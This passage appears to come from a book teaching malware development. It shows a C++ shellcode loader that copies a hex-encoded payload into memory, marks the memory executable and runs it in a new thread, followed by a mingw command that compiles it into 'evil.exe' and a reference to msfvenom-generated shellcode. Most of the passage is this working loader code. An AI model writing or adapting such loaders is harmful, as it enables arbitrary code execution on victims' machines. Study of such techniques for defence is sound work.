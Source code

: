 ```cpp
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, 
  my_payload_len, MEM_COMMIT | MEM_RESERVE, 
  PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, 
  my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE)my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

It's okay if you don't understand a lot of the code. I will often use similar tricks and pieces of code. As you read the book, you will understand more and more the concepts and fundamental things.    

Let's check firstly.   

Compile:   

```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++
-static-libgcc
```

![msfvenom](./images/6/2021-09-18_20-35.png){width="75%"}
